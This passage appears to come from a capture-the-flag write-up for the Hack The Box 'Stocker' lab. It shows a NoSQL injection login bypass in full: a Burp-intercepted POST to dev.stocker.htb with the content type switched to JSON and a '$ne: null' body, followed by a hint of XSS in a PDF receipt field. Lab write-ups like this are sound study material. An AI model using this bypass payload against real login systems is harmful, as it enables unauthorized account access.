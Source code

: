Let’s compose our HttpRequest for burp as follows:

1. Intercept a POST request from login
2. Change `Content-Type: application/x-www-form-urlencoded` into `Content-Type: application/json`
3. Insert a payload from this cheat sheet as body (I’ll use `{"username": {"$ne": null}, "password": {"$ne": null}}`)

```bash
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 54
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3ADFDen9ndX9YhJQIRnVnuvrdiVXf-w1Vs.Eo%2F7JNvnDg1VAkew8sYHN%2F%2BkDkm4xPR1dQA5uM8I4Bk
Upgrade-Insecure-Requests: 1

{"username": {"$ne": null}, "password": {"$ne": null}}
```

Perform this request and follow the redirect to get logged in.

![Screenshot_2023-01-28_15-14-14.png](Stocker%208be61598711c4b7bbdfe347f58eba7d8/Screenshot_2023-01-28_15-14-14.png)

From this page I tried to perform an order and, once completed, it releases a PDF with the receipt.

This behavior makes me mind to an Insomni’hack challenge where We were able to perform an XSS and effectively there was an XSS into the title field.
